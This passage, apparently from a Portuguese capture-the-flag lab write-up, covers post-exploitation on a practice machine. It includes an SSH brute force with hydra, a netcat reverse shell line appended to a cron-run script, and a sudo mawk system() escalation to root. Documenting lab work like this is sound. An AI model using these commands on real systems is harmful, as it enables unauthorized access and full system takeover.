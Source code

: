 Pra fechar, spawnamos uma shell interativa e ta na mão.

## 🕵️‍♂️ Pós-exploração

Logo de cara, fiz uma enumeração básica e... surpresa! Achamos as credenciais do banco de dados:

<p align="center"> <img width="1500px" height="133" alt="image" src="https://github.com/user-attachments/assets/5310e9b0-9119-4c0e-80bb-f14bffc527ed" /></p>

Também verifiquei os perfis disponíveis em /home e criei uma wordlist com os nomes dos perfis

Com isso em mãos, fiz um brute force no serviço SSH que já tínhamos mapeado:

```bash
hydra -L user -p [Senha] 10.10.114.5 ssh
```
<p align="center"> <img width="1500px" height="242" alt="image" src="https://github.com/user-attachments/assets/870a6202-1273-4b92-aa2b-7e2d29275d63" /></p>

🎉 Primeira flag conquistada:

<p align="center"> <img width="1500px" height="227" alt="image" src="https://github.com/user-attachments/assets/396cdb1b-da85-4880-8b49-ae389799e953" /></p>

Dando aquela checada no crontab, encontramos um script sendo executado com permissão do usuário smith:

```bash
cat /etc/crontab
```
<p align="center"> <img width="1500px" height="389" alt="image" src="https://github.com/user-attachments/assets/b16825b1-08a7-4e97-80c9-a37a110fa911" /></p>

Inserimos uma reverse shell no script e preparamos o listener:

```bash
echo "nc 10.21.173.102 9001 -e /bin/bash" >> /opt/backups/.scripts/.script
````
📸 Payload injetado:
<p align="center"> <img width="1500px" height="121" alt="image" src="https://github.com/user-attachments/assets/2ee5a372-2e5c-40bf-be74-d9ddc8976b5c" /></p>

💥 E com isso, ganhamos acesso como smith e pegamos a segunda flag
<p align="center"> <img width="1500px" height="255" alt="image" src="https://github.com/user-attachments/assets/307854aa-7439-4898-b02b-e3175d09aa78" /></p>

Com o acesso ao usuário smith, a próxima missão era bem clara: virar root 👑

Essa foi a parte mais tranquila...

```bash
sudo -l
```
<p align="center"> <img width="1500px" height="162" alt="image" src="https://github.com/user-attachments/assets/ab18a005-3aa0-4dec-8eee-d30717944a26" /></p>

O usuário smith pode rodar o binário mawk como root, sem precisar de senha.
E adivinha? O mawk aceita execução de comandos via system()
Pra isso, bastou rodar:

```bash
sudo mawk 'BEGIN {system("/bin/bash")}'
```
<p align="center"> <img width="1500px" height="51" alt="image" src="https://github.com/user-attachments/assets/15fc2667-1e3a-4a7a-8399-fe1e01354c8f" /></p>

👑 Agora sim, root na mão!

Com acesso root, foi só ir direto na `/root` e pegar a flag final:

<p align="center"> <img width="1500px" height="293" alt="image" src="https://github.com/user-attachments/assets/9d9bc899-7993-45a9-90da-f277b22105c9" /></p>

